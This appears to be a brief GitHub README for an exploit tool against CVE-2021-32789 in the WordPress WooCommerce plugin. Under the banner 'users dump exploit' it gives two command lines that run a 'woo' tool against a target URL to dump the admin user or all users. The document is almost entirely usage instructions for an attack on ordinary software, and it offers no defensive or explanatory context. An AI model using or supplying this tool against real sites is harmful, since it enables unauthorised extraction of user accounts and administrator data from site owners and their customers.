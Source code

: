 # 💣 CVE-2021-32789
Wordpress WooCommerce users dump exploit

### Dump admin user
```
woo -u http://example.com
```

### Dump all users
```
woo -u http://example.com -dump
```